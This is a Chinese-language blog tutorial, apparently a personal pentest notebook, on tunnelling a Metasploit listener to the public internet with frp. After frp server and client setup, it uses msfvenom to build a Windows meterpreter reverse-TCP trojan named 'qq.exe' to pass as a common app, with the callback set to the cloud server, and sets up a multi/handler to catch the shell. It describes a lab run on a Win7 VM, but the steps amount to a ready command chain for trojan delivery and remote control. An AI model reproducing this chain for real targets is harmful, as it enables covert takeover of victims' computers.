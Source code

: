```yaml
---
title: frp 搭建公网 Metasploit
date: 2022-4-18 20:18:36
tags: [Trojan horse,Linux,Kali,Metasploit,frp]
categories: 
 - [渗透测试,木马-Trojan-horse]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


## 准备
- **frps** 部署机。
	- 要求：拥有 **公网IP** （例如 **VPS**、云服务器等等）
	- 本文选用 **Ubuntu 18.04.6** 云服务器
- **frpc** 客户机。
	- 要求：能访问互联网
	- 本文选用 **Kali Linux 2022** 虚拟机
- **frp** 的 **Github** 项目地址：[fatedier/frp](https://github.com/fatedier/frp)
## frps（云服务器）
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) ：
![image-20230426011312770](https://res.cloudinary.com/sycamore/image/upload/v1682442796/Typera/2023/04/65c0edabf7c4cf7b431c9f10ff94bc05.png)

1. 在 **云服务器** 终端上下载：`wget https://github.com/fatedier/frp/releases/download/v0.41.0/frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011322302](https://res.cloudinary.com/sycamore/image/upload/v1682442806/Typera/2023/04/d8b546285137f60d42fef4a27a06d821.png)
2. **解压缩** 下载的文件：`tar -zxvf frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011327257](https://res.cloudinary.com/sycamore/image/upload/v1682442811/Typera/2023/04/4063a698f14734b0fb54a92974122ba5.png)
3. **进入** 解压缩的文件夹：`cd frp_0.41.0_linux_amd64/`
4. 因为配置的是 **frps** ，可以 **删除** 文件夹内的 **frpc** 相关文件，防止后续修改出错：**`rm -rf frpc*`**
![image-20230426011332064](https://res.cloudinary.com/sycamore/image/upload/v1682442816/Typera/2023/04/f776553aeca109b5eef6a7e0d3d6bacd.png)
### 编写 frps 配置文件
`vim frps.ini`
内容如下：
（不想要**监控页面**的话，删除对应配置所在 **行** 即可）
```
[common]
bind_port = 7777          # frps和frpc的通讯端口
dashboard_port = 9999     # web监控页面的端口
dashboard_user = Sycamore # 登录监控页面的用户名
dashboard_pwd = 123456    # 登录监控页面的密码
```
如图所示：
![image-20230426011338410](https://res.cloudinary.com/sycamore/image/upload/v1682442822/Typera/2023/04/02f8cca9459920e2f031c95fec4c172e.png)
（需要 **云服务器** 打开 **对应端口**：7777、9999)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frps -c frps.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 后台运行：`nohup ./frps -c frps.ini >/dev/null 2>&1 &`
	- 因为通常不会 **关闭云服务器**，所以 **后台运行** 就足够了；
	- 当然也可以 **开启自启动**，详情见 **frpc** 的内容，对应命令改个符号就行 ~

## frpc（Kali 虚拟机）
![image-20230426011342973](https://res.cloudinary.com/sycamore/image/upload/v1682442827/Typera/2023/04/692976286e5ddec8cd744326a1c3a54d.png)
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) 

步骤与 **frps** 的几乎**相同**，**区别** 是：
- 对象变成了 **Kali 虚拟机**，而不是 云服务器
- 以及最后一步 **删除的是 frps**：
	4. 因为配置的是 **frpc** ，可以 **删除** 文件夹内的 **frps** 相关文件，防止后续修改出错：**`rm -rf frps*`**

### 编写 frpc 配置文件
作为一款 **内网穿透** 工具，**frp** 穿透了内网之后，还需要使用 **其他手段**（**ssh**）
和外网建立交互，所以 **配置文件** 中会存在 **[ssh]** 配置。

`vim frpc.ini`
内容如下：
```
[common]
server_addr = 106.15.52.194
server_port = 7777

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6666
use_compression = true
```
相关 **解释** 如图：
![image-20230426011350366](https://res.cloudinary.com/sycamore/image/upload/v1682442834/Typera/2023/04/2144e375ff1aca162bb41868d050259f.png)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frpc -c frpc.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 开机自启动：
	- 服务目录 **新建并编辑** 文件：`vim /lib/systemd/system/frp.service`
	- 填入以下内容：
		```
		[Unit]
		Description=Frp Client Service
		After=network.target remote-fs.target nss-lookup.target
		Wants=network.target
		
		[Service]
		Type=simple
		ExecStart=/root/frp/frpc -c /root/frp/frpc.ini
		Restart=always
		RestartSec=20s
		
		[Install]
		WantedBy=multi-user.target
		```
	- 启动 **frpc** 服务：`systemctl start frp`
	（最后的 `frp` 名称取决于上一步新建的文件名 `frp.service`）
	- 打开 **frpc** 服务自启动 `systemctl enable frp`
		**[注意]：**
		- 如果要重启应用：`systemctl restart frp`
		- 如果要停止应用：`systemctl stop frp`
		- 如果要查看 **frpc** 的日志：`systemctl status frp`
		- 权限不够，记得加 `sudo`

**服务文件** 重要内容注释 如下图：
![image-20230426011356634](https://res.cloudinary.com/sycamore/image/upload/v1682442841/Typera/2023/04/6e79855b87a38703bd5b740419dc6e65.png)

## SSH 连接测试
- 命令行 `ssh root@x.x.x.x -p 6666`
（**root** 用户登录到 **云服务器x.x.x.x** 的 **6666** 端口）
![](https://res.cloudinary.com/sycamore/image/upload/v1682442846/Typera/2023/04/52501488b9125c9518e2190783a8fcf4.png)
- Xshell 创建新会话，具体内容如下：
![image-20230426011410382](https://res.cloudinary.com/sycamore/image/upload/v1682442854/Typera/2023/04/891e33c279efacbf48adee134034f971.png)![image-20230426011417120](https://res.cloudinary.com/sycamore/image/upload/v1682442861/Typera/2023/04/fe85e7d6d6e0e5955c77ff87a4ea5abe.png)
<br>
**Xshell  连接成功**：
![image-20230426011424294](https://res.cloudinary.com/sycamore/image/upload/v1682442869/Typera/2023/04/7eed7e40069de144ddcfb74725077325.png)
## msf 渗透攻击测试
双击打开 刚刚建立的 **Xshell 新会话**（ frp ）.
### frpc 添加新配置
输入命令：`vim frpc.ini`，编辑 **frpc** 配制文件，
在文件末尾 **添加**：
```
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 2333 
```
配置内容的 **含义** 与 **[ssh]** 类似，解释如图：
![image-20230426011431000](https://res.cloudinary.com/sycamore/image/upload/v1682442874/Typera/2023/04/75402a4aa7e5b6970ffb51313c0a847f.png)

### msf 生成木马
与连接 **本地的 shell** 生成木马不同，
因为我们要使用 **frp 穿透内网** 连接的 shell ，去 **监听木马反弹**的 shell，
所以我们 **生成木马** 时，设置的 LHOST、LPORT 应当是 **云服务器** 的对应数据。
（直接用内网测试的时候，LHOST、LPORT 填的是 **本地虚拟机** 的相关数据）

用 **msf** 生成 **windows** 系统的 **反向shell** 木马：
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=2333 -f exe > qq.exe`
![image-20230426011437323](https://res.cloudinary.com/sycamore/image/upload/v1682442881/Typera/2023/04/f72e4363a982738b25b5976722ab8948.png)
成功生成木马文件：**qq.exe**

### msf 监听反弹的 shell
> （确定 frps 、frpc 服务均已在后台运行）
> （事先上传 qq.exe 到测试的靶机，本文用 	Win7_x64 虚拟机替代）

> 关于**上传**：Kali 虚拟机 开启 **Apache2** 服务，Win7_x64 虚拟机 内网访问下载：
> ![](https://res.cloudinary.com/sycamore/image/upload/v1682442886/Typera/2023/04/79c8bcdd330dc38041cee9fa333d9bb8.png)

1. `msfconsole`
	- 打开 **msf**
2. `use exploit/multi/handler`
	- 选择使用的 exploit
3. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	- 设置 PAYLOAD （生成木马时使用的）
4. `set LHOST 127.0.0.1`
	- 设置 LHOST 为本地 IP
5. `set LPORT 4444`
	- 设置 LPORT 为转发的本地端口 4444
6. run
	- 开始监听

> （先让 **msf** 开始监听，再双击运行上传的木马文件）

演示如图所示：
- 双击 **运行木马**：
![image-20230426011447735](https://res.cloudinary.com/sycamore/image/upload/v1682442892/Typera/2023/04/553d087d53826c0f6f0bc2edf848b2b0.png)
<br>
- msf **开始监听** & 成功获得 meterpreter **shell**：
![image-20230426011457351](https://res.cloudinary.com/sycamore/image/upload/v1682442902/Typera/2023/04/204ea56873200eb9b2507252955adb2a.png)

